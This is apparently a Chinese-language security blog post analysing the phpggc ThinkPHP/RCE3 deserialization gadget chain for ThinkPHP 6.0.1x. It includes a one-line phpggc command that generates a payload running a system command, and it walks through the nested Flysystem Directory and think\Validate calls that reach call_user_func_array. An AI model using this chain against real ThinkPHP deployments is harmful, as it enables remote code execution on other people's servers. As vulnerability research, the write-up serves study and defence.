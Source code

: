 ```yaml
---
title: phpggc thinkphp RCE3
date: 2023-06-07 22:21:25
categories:
- PHP
tags:
- Deserialization
- thinkphp
toc: true
notshow: true
---
```

### RCE3
影响范围：
- thinkphp 6.0.1x

#### 使用

```bash
phpggc ThinkPHP/RCE3 system id  -b -u
```

#### 分析
thinkphp 6 版本与此前的版本存在较大差异，搜索 `__destruct` 时可发现入口点都在 vendor 目录下，也就是 Composer 类库目录。
```php
vendor/league/flysystem-cached-adapter/src/Storage
    AbstractCache.php
        public function __destruct()
vendor/league/flysystem/src
    SafeStorage.php
        public function __destruct()
vendor/league/flysystem/src/Adapter
    AbstractFtpAdapter.php
        public function __destruct()
vendor/topthink/think-orm/src
    Model.php
        public function __destruct()
vendor/topthink/think-orm/src/db
    Connection.php
        public function __destruct()
```


RCE3 整个调用链如下所示：
```php                                        
League\Flysystem\Cached\Storage\Psr6Cache::__destruct()
    | $this->save();                                   
    | $this->pool->getItem()                           
    League\Flysystem\Directory::__call()<---+          
        | call_user_func_array              |          
        | $this->getItem()  ----------------+          
        think\Validate::__call()                       
            | call_user_func_array                     
            | $this->is()                              
            | call_user_func_array  * <----            
```
总体看这条链还是比较短的，入口点为 Psr6Cache，这个类为 AbstractCache 的实现类。sink 点为 `think\Validate` 的 is 方法，在 is 方法中可以找到 call_user_func_array 的调用，`$this->type` 是可控的，`$rule` 和 `$value` 都是传入的参数。
```php
    default:
        if (isset($this->type[$rule])) {
            // 注册的验证规则
            $result = call_user_func_array($this->type[$rule], [$value]);
```
`think\Validate` 类正好有一个 `__call` 方法，且使用 call_user_func_array 调用自身的 is 方法，传入参数为 args，这样看来还是比较好控制的。
```php
public function __call($method, $args)
{
    if ('is' == strtolower(substr($method, 0, 2))) {
        $method = substr($method, 2);
    }

    array_push($args, lcfirst($method));

    return call_user_func_array([$this, 'is'], $args);
}
```
这条链比较巧妙的点在与 Directory 的构造，在`think\Validate::__call` 中，`call_user_func_array` 调用 is 方法时需要传入三个参数,其中第三个参数为数组。
```php
public function is($value, string $rule, array $data = [])
```
由于是从 `League\Flysystem\Directory::__call()` 中使用 `call_user_func_array` 调用 getItem 函数过来的，因此 `$method` 的值为 'getItem', 但 `array_push($args, lcfirst($method));` 仅会往 `$args` 末尾添加一个元素 'getItem'，因此在传入`think\Validate::call`时 `$args` 的第三个元素需要为一个数组。

调试时就可以发现，如果仅仅构造一层的 Directory，`$args` 的第三个元素始终都无法为一个数组，因此在构造 payload 时对 `League\Flysystem\Directory` 进行了嵌套。
```php
array_unshift($arguments, $this->path);
```
也就是说，第一次调用到 `League\Flysystem\Directory::__call` 中的 `call_user_func_array` 时，再次调用 `League\Flysystem\Directory::getItem`,由于这方法不存在，会再次进入 `__call`，从而两次执行 `array_unshift($arguments, $this->path);` 进而构造一个满足条件的 `$arguments`.
```php
public function __call($method, array $arguments)
{
    array_unshift($arguments, $this->path);
    $callback = [$this->filesystem, $method];

    try {
        return call_user_func_array($callback, $arguments); <---
    } catch (BadMethodCallException $e) {
        throw new BadMethodCallException(
            'Call to undefined method '
            . get_called_class()
            . '::' . $method
        );
    }
}
```

### 参考资料
- [ThinkPHP getshell的poc链挖掘](https://blog.51cto.com/u_12364708/5508636#:~:text=%E6%BC%8F%E6%B4%9E%E6%8C%96%E6%8E%98-ThinkPHP6.0.12LTS%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%201%20%E5%89%8D%E6%8F%90%E4%BB%8B%E7%BB%8D%202%20%E5%87%86%E5%A4%87%E5%B7%A5%E4%BD%9C%203,%E6%89%BE%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%85%A5%E5%8F%A3%E7%82%B9%204%20%E7%A1%AE%E5%AE%9A%E9%93%BE%E8%B7%AF%205%20%E7%A1%AE%E5%AE%9A%E6%95%B4%E4%BD%93write%E6%B5%81%E7%A8%8B%206%20%E6%9E%84%E5%BB%BApoc%E9%93%BE%E5%B9%B6%E5%AE%9E%E7%8E%B0getshell)